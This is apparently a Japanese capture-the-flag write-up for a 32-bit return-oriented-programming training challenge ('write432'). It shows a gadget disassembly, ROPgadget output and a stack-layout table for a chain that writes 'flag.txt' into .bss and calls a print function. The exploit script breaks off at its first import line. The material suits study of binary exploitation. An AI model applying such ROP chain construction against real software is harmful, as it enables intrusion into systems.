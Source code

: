 ```
gef➤  disas usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x08048543 <+0>:	mov    DWORD PTR [edi],ebp
   0x08048545 <+2>:	ret    
   0x08048546 <+3>:	xchg   ax,ax
   0x08048548 <+5>:	xchg   ax,ax
   0x0804854a <+7>:	xchg   ax,ax
   0x0804854c <+9>:	xchg   ax,ax
   0x0804854e <+11>:	xchg   ax,ax
End of assembler dump.
gef➤  

```

あとは、usefulFadgetsと組み合わせるGadgetがあるからそれ使っていくぜい。

```
❯ ROPgadget --binary write432 --only "pop|pop|ret"
Gadgets information
============================================================
0x080485ab : pop ebp ; ret
0x080485a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804839d : pop ebx ; ret
0x080485aa : pop edi ; pop ebp ; ret
0x080485a9 : pop esi ; pop edi ; pop ebp ; ret
0x08048386 : ret
0x0804849e : ret 0xeac1

Unique gadgets found: 7
```

```pop ebp```のところを探すとちょうどいい感じのやつがあったのでそれを使う。

一旦スタックの情報をまとめとく。

| アドレス                    | 値             |
| --------------------------- | -------------- |
| esp#pwnme  ebp#pwnme - 0x28 |                |
| ebp#pwnme                   | saved ebp      |
| ebp#pwnme+0x4               | return address |

これをこういう形にするといい？
|          アドレス           |                         値                          |
| :-------------------------: | :-------------------------------------------------: |
| esp#pwnme  ebp#pwnme - 0x28 |                      AAAA ...                       |
|          ebp#pwnme          |                        AAAA                         |
|        ebp#pwnme+0x4        | 0x080485aa(pop edi ; pop ebp ; ret)(return address) |
|       ...  esp#[next]       |                 0804a020(bss_addr)                  |
|             ...             |                       b"flag                        |
|             ...             |              0x08048543(usefulGadgets)              |
|             ...             | 0x080485aa(pop edi ; pop ebp ; ret)(return address) |
|             ...             |                 804a024(bss_addr+4)                 |
|             ...             |                       b".txt                        |
|             ...             |              0x08048543(usefulGadgets)              |
|             ...             |               0x080483d0(printf_file)               |
|             ...             |                BBBB (return address)                |
|             ...             |                 0804a020(bss_addr)                  |



```
from pwn import *
